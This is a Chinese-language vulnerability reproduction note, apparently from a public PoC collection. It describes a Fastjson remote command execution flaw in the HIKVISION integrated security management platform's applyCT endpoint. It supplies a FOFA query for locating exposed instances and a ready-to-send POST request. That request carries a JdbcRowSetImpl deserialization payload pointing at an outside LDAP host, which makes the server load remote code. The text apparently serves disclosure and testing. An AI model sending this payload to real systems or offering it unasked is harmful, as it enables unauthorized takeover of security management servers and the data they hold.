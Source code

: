 # HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

```
HIKVISION 综合安防管理平台
```

## FOFA

```
app="HIKVISION-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](./images/202208241341481.png)

验证POC

```
POST /bic/ssoService/v1/applyCT HTTP/1.1
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![image-20220824134503675](./images/202208241345726.png)